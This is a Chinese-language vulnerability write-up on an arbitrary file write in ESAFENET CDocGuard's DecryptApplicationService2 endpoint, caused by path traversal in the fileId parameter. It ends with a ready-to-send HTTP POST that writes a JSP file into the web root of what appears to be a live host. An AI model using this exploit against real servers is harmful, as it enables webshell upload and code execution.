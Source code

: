 # 漏洞分析

漏洞点在DecryptApplicationService2接口，在webxml定位到对应的类

![image-20230816185903197](images/1.png)

![image-20230816191358515](images/2.png)

该类的service方法接受了一个fileId参数，并且进行了文件写入的相关操作

首先获取了model的目录，然后拼接上fileId参数赋值给uploadPath变量

![image-20230816190355885](images/3.png)

返回的是系统运行时一个指定的Path

接下来获取POST的原始数据流，指定一个FileOutputStream，传入uploadPath，再通过buffer流将POST的数据流写到FileOutputStream输出到对应文件中去。

这里由于没有对fileId参数进行过滤，导致可以通过目录穿越符结合jsp后缀写到任意目录下，导致任意文件写入，可写入webshell造成任意代码执行。

# 漏洞复现

```
POST /CDGServer3/DecryptApplicationService2?fileId=../../../Program+Files+(x86)/ESAFENET/CDocGuard+Server/tomcat64/webapps/CDGServer3/12345.jsp HTTP/1.1
Host: 61.130.48.54:8888
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36(KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36
Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=E3B40EDFAC72A292489DBF7019B4AEA6
Connection: close
Content-Length: 254

<%@page import="java.text.*,java.util.*,java.io.*"%>
<%
SimpleDateFormat df = new SimpleDateFormat("yyy-MM-dd HH:mm:ss");
out.println(df.format(new Date()));
File file = new File(application.getRealPath(request.getServletPath()));
file.delete();
%>
```

![image-20230816191517122](images/4.png)

访问/CDGServer3/12345.jsp

![image-20230816191526614](images/5.png)







